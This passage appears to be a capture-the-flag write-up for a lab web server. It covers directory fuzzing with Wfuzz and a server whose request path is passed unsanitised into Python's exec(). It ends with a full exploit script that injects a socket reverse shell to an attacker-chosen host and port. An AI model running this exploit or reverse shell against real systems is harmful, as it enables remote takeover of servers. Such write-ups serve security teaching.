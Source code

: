 ```
```

The web service page source code reveals the following.
```html
<h4 class="experience-title accent">Server Dev</h4>
<p class="education-description">Message to server devs: the current source code for the web server is in 'SuperSecureServer.py' in the secret development directory</p>
```

This provides a unique point for pivoting. `SuperSecureServer.py` must exist somewhere. We can use Wfuzz to enumerate possibilities.
`wfuzz -w /usr/share/wordlists/dirb/big.txt --hc 404 http://obscure.htb:8080/FUZZ/SuperSecureServer.py`
```
Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://obscure.htb:8080/FUZZ/SuperSecureServer.py
Total requests: 20469

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                     
===================================================================

000006016:   200        170 L    498 W    5892 Ch     "develop"                                                   

Total time: 90.29689
Processed Requests: 20469
Filtered Requests: 20468
Requests/sec.: 226.6855
```

Now pull the file down for further analysis.
`wget http://obscure.htb:8080/develop/SuperSecureServer.py`
The flaw in their code is seen here. The info variable line and exec function is the hole we need to inject a reverse shell.
```python
    def serveDoc(self, path, docRoot):
        path = urllib.parse.unquote(path)
        try:
            info = "output = 'Document: {}'" # Keep the output for later debug
            exec(info.format(path)) # This is how you do string formatting, right?
```

Get creative, if you wish. The pre-text does not really matter.
```python
#!/usr/bin/env python3
from sys import argv
import requests
import urllib
import os

address = '{}/'.format(argv[3])
revshell = 'SUCKITLOL\'' + '\nimport socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{}",{}));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash", "-i"])\na=\''.format(argv[1], argv[2])
payload = urllib.parse.quote(revshell)

#print(address + payload)
RESPONSE = requests.get(address + payload)
```
